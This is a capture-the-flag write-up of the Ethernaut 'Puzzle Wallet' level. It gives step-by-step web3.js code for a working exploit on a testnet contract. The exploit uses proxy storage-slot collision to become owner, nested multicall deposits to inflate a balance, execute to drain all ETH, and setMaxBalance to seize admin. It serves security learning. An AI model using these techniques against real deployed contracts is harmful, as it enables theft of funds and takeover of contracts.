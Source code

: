 # Level 24: Puzzle Wallet

## Wargame
You'll need to hijack this wallet to become the admin of the proxy.


## Key Insights
* delegatecall
* storage slot

## Attack Steps

1. Inspect the Target Contract
* Instance address:
    ```javascript
    instance = '0x6770d0B936Ad1B5531151fA5800aEF3aF4889ecC';
    ````
* Check the first two storage slots:
    ```javascript
    await web3.eth.getStorageAt(instance, 0);
    // '0x000000000000000000000000725595ba16e76ed1f6cc1e1b65a88365cc494824'

    await web3.eth.getStorageAt(instance, 1);
    // '0x000000000000000000000000725595ba16e76ed1f6cc1e1b65a88365cc494824'
    ```
* Check the current `owner`:
    ```javascript
    await contract.owner();
    // '0x725595BA16E76ED1F6cC1e1b65A88365cC494824'
    ```


2. View the Contract Source

* You can find the contract code on Etherscan:

    [Puzzle Wallet @ Sepolia Etherscan](https://sepolia.etherscan.io/address/0x6770d0B936Ad1B5531151fA5800aEF3aF4889ecC#code)

* By decompiling the bytecode, we can confirm the target contract is **`PuzzleProxy`**:

    Decompiler: [Dedaub Decompile Tool](https://app.dedaub.com/decompile?network=ethereum)


3. Become `owner` via `proposeNewAdmin`
* The `PuzzleProxy` uses `delegatecall` to the `PuzzleWallet`, sharing the same storage layout.
`pendingAdmin` in `PuzzleProxy` overlaps with `owner` in `PuzzleWallet` (slot 0).
* Call `proposeNewAdmin` to set `pendingAdmin` to your player address:
    ```javascript
    const proposeNewAdminData = web3.eth.abi.encodeFunctionCall({
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [{ type: 'address', name: '_newAdmin' }]
    }, ['0xEB47eAB0027B0DDd5615D00f9D83eC0e71D3aeFf']);

    await web3.eth.sendTransaction({
    from: player,
    to: instance,
    data: proposeNewAdminData
    });
    ```
* Now, `owner` in `PuzzleWallet` is also set to your player address:
    ```javascript
    await contract.owner();
    // '0xEB47eAB0027B0DDd5615D00f9D83eC0e71D3aeFf'
    ```

4. Add Player to Whitelist
* With `owner` privileges, call `addToWhitelist`:
    ```javascript
    await contract.addToWhitelist(player);
    ```

5. Inflate Internal Balance via Nested `multicall`
* **Goal:** Empty the contract's ETH balance.
* We exploit a logic flaw in `multicall` to call `deposit` multiple times in one transaction.
* Prepare the `deposit` call data:
    ```javascript
    valueInWei = web3.utils.toWei('0.001', 'ether');
    const depositData = web3.eth.abi.encodeFunctionCall({
    name: 'deposit',
    type: 'function',
    inputs: []
    }, []);
    ```

* Wrap `deposit` in a single-layer `multicall`:
    ```javascript
    const multicallData1 = web3.eth.abi.encodeFunctionCall({
    name: 'multicall',
    type: 'function',
    inputs: [{ type: 'bytes[]', name: 'data' }]
    }, [[depositData]]);
    ```

* Wrap that again in another `multicall` to bypass the `depositCalled` check:
    ```javascript
    const multicallData2 = web3.eth.abi.encodeFunctionCall({
    name: 'multicall',
    type: 'function',
    inputs: [{ type: 'bytes[]', name: 'data' }]
    }, [[multicallData1, multicallData1]]);
    ```

* Call the nested multicall:
    ```javascript
    await web3.eth.sendTransaction({
    from: player,
    to: instance,
    value: valueInWei,
    data: multicallData2
    });
    ```
* **Why this works:** `depositCalled` is a local variable reset on each `multicall` call. By nesting, we can call `deposit` multiple times with only one actual ETH transfer, inflating our internal balance.

6. Drain the Contract via `execute`
    ```javascript
    balance = await getBalance(instance);
    valueInWei = web3.utils.toWei(balance, 'ether');

    await contract.execute(player, valueInWei, '0x');

    await getBalance(instance);
    // '0'
    ```

7. Set `maxBalance` to Your Address
* With the contract balance at zero, the `setMaxBalance` require condition passes.
* Since `maxBalance` in `PuzzleWallet` overlaps with `admin` in `PuzzleProxy` (slot 1), this will make you the admin.
    ```javascript
    await contract.setMaxBalance(player);

    await web3.eth.getStorageAt(instance, 1);
    // '0x000000000000000000000000eb47eab0027b0ddd5615d00f9d83ec0e71d3aeff'
    ```

## Summary

By abusing storage slot overlaps and `multicall` nesting, we:
1. Became `owner` and whitelisted ourselves.
2. Inflated our internal balance with minimal ETH deposit.
3. Drained all ETH from the contract.
4. Set ourselves as `admin` of the proxy.
